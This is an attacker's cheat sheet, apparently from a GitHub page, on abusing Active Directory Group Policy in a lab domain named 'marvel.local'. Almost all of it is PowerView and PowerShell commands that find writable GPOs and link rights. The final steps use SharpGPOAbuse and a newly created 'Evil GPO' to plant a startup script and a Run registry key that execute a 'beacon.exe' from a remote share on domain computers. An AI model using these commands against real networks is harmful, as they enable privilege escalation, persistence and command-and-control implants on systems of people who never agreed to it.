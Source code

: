 ## Enumeratation

### 1. Enumerate Domain GPOs then Affected OUs then Affected Computers
```powershell
Get-DomainGPO | select displayname,cn,whencreated,whenchanged | fl
Get-DomainOU -GPLink {CE680C75-3791-428D-BE7E-E75DDF297BE4} | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
```

### 2. Enumerate Domain GPOs then search for Restricted Groups in GptTmpl.inf & Groups.xml
Get-GptTmpl "\\{Domain}\SysVol\{Domain}\Policies\{ID}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf"
Get-GroupsXML "\\{Domain}\SysVol\{Domain}\Policies\{ID}\MACHINE\Preferences\Groups\Groups.xml"
```powershell
Get-DomainGPOLocalGroup
```

### Map User to GPO then Map GPO to Computers (Do Phase2 then Do Phase1)
```powershell
Get-DomainGPOUserLocalGroupMapping -Identity itsupport
```

## Modify Existing GPO
```powershell
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}"} | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl

Get-DomainGPO -Identity "CN={CE680C75-3791-428D-BE7E-E75DDF297BE4},CN=Policies,CN=System,DC=MARVEL,DC=local"

ConvertFrom-SID "S-1-5-21-410602843-3916082903-3170366279-1119"

SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\hydra-dc.marvel.local\secret\beacon.exe" --GPOName "Add Local Admin Access"
```

## Create & Link a GPO

### Create GPO
```powershell
Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=marvel,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
```

### Link GPO to OU
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl
```

### Install
```powershell
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property Name, State
Add-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0

New-GPO -Name "Evil GPO"
Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=PC,DC=marvel,DC=local"

Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater0X" -Value "C:\Windows\System32\cmd.exe /c \\hydra-dc.marvel.local\secret\beacon.exe" -Type ExpandString
```
